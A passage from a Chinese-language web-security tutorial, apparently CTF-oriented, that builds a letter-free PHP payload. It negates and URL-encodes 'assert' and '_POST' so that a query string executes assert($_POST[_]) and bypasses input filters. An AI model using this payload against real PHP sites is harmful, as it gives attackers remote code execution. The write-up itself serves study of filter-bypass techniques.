 ```php
$____ .= ~("欠"{$_});
```

后者是PHP7中的语法。

### 法二：直接目标字符取反

我们想要构造的依然是`assert($_POST[_])`这条语句，和上面一样，我们先用`php`的取反符号`~`将字符串`assert`和`_POST`取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可，具体请见下图：

![image-20231019203207822](assets/image-20231019203207822.png)

可以看到，`assert`的取反结果是`%9E%8C%8C%9A%8D%8B`，`_POST`的取反结果是`%A0%AF%B0%AC%AB`，那我们就开始构造：

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
?cmd=$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```

![image-20231019203318907](assets/image-20231019203318907.png)



### 缩短payload---升级版
